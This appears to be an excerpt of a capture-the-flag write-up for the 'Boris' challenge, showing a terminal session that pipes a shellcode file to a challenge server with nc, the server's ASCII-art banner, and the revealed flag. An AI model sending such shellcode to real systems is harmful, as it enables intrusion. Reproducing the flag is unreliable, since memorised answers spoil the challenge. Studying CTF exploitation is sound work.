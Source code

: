 ```  
┌──(kali㉿kali)-[~/ctf/digitaloverdose]  
└─$ nc 193.57.159.27 40000 < shellcode.txt

[.] Boris is bored. My genius needs using! Give me something to do!  
[+] Finally, a task! But you'll never break my access codes...  
[!] Access codes applied!

                                             'lxko,  
                                             ;xXWWO;  
                                               cKWWk,  
                           '''                 ':kNWk,  
        ',,,           ':dO0Kkc,'               'xWMWOc'  
      ;d0KK0l'        'oNMMMMWK0Oc'              dWMMMKc  
     'xWMMW0l'        ;0MMMMMMMWMKx:             dWMMMNo  
     ,OMM0o:'         ;0MMMMMMMMMNKo             dWMMMWd  
    :xXMWx,           ,kMMMMMMMMM0o;             dWMMMMO,  
   'OMMMWk,           'dWMMMMMMMMOc,            :0MMMMMNo  
    xMMMW0c'           ,dNMMMMMMM0d:''  ',,   ,l0WMMMMMWd  
    oNMMMXOl'        ':lxXMMMMMMMWNXKOxk0XKOk0XWMMMMMMMWd  
    ;0MMMNK0l    ',;;:oKMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMWO:  
     dWMMMMMXkddokKKkdkXMMMMMMMMMMMMMMMMMMMMMMMMMMMMWXd,  
     :KMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMWX0xoc,  
     'ck0XWMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMXkdl;'  
        ';cloxKWMMMMMMMMMMMMMMMMMMMMMMMMMMMMO,  
             'dWMMMMMMMMMMMMMMMMMMMMMMMMMMMMWk,  
             ,OMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMWk,  
             lNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMWO;  
            'xWMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMWk,

             ---------  I'm INVINCIBLE!! ---------

[.] Good luck... you'll need it!  
DO{H0w_cAn_thi5_b3!?_n0b0dy_Sp!ke5_B0r1s!}  
[!] Better luck next time. SLUGHEADS!  
```

Original writeup (https://lo0l.com/2021/10/11/digitaloverdose.html#source-
analysis---boris).